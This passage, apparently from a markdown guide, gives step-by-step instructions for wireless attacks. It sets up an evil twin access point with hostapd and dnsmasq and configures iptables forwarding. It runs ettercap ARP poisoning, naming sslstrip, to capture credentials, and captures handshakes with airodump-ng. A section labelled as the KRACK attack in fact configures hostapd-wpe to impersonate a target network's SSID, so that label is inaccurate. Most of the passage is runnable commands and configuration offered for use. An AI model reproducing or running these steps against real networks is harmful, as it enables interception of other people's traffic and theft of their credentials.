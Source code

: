     Start `hostapd` using the configuration:
    ```bash
    sudo hostapd /etc/hostapd/hostapd.conf
    ```

2. **Enable DHCP Server**:
    - Use `dnsmasq` to provide DHCP and DNS services.
    - Install and configure `dnsmasq`.

    ```bash
    sudo apt-get install dnsmasq
    sudo nano /etc/dnsmasq.conf
    ```

    Example Configuration for `dnsmasq.conf`:
    ```plaintext
    interface=wlan0
    dhcp-range=192.168.1.10,192.168.1.100,12h
    ```

3. **Redirect Traffic**:
    - Configure `iptables` to forward traffic and capture credentials using tools like `ettercap` or `sslstrip`.

    ```bash
    sudo iptables --table nat -A POSTROUTING -o eth0 -j MASQUERADE
    sudo iptables -A FORWARD -i eth0 -o wlan0 -m state --state RELATED,ESTABLISHED -j ACCEPT
    sudo iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
    sudo ettercap -T -q -M arp:remote // // -i wlan0
    ```

4. **Capture Handshakes**:
    - Use `airodump-ng` while running the evil twin to capture handshakes when clients connect.

    ```bash
    airodump-ng -c 6 --bssid [Evil Twin MAC] -w capture wlan0
    ```

#### Method 2: Man-in-the-Middle via KRACK Attack

The KRACK (Key Reinstallation Attack) exploits flaws in WPA2's four-way handshake process.

1. **Install Hostapd-wpe**:
   Hostapd-WPE (WiFi Protected Enterprise) is a patched version of hostapd, designed for conducting MiTM attacks on WPA2-Enterprise networks.

   ```bash
   sudo apt-get install hostapd-wpe
   ```

2. **Configure Hostapd-wpe**:
   Modify the configuration to impersonate the target network.

   ```bash
   sudo nano /etc/hostapd-wpe/hostapd-wpe.conf
   ```

   Example Configuration:
   ```plaintext
   interface=wlan0
   driver=nl80211
   ssid=targetSSID
   channel=6
   logger_stdout=-1
   logger_stdout_level=2
   wpa=2
   wpa_key_mgmt=WPA-EAP
   rsn_pairwise=CCMP
   eap_server=1
   eap_user_file=/etc/hostapd-wpe/hostapd-wpe.eap_user
   ```